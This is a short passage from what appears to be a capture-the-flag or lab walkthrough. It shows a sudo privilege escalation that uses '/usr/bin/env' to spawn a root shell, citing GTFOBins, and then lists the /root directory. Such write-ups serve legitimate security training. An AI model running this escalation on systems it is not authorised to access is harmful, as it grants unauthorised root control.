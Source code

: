 ![gtfobins](images/24.png)

- Then, we'll use this command to enter a shell with root privileges:

```bash
sudo /usr/bin/env /bin/sh
```
![root](images/25.png)

- Once this command is successfully executed, we'll have a shell with root privileges, allowing us to access files or commands that require elevated privileges.

32. We'll access the root directory with the command:

```bash
cd /root
```

📥 Use the command:

```bash
ls
```
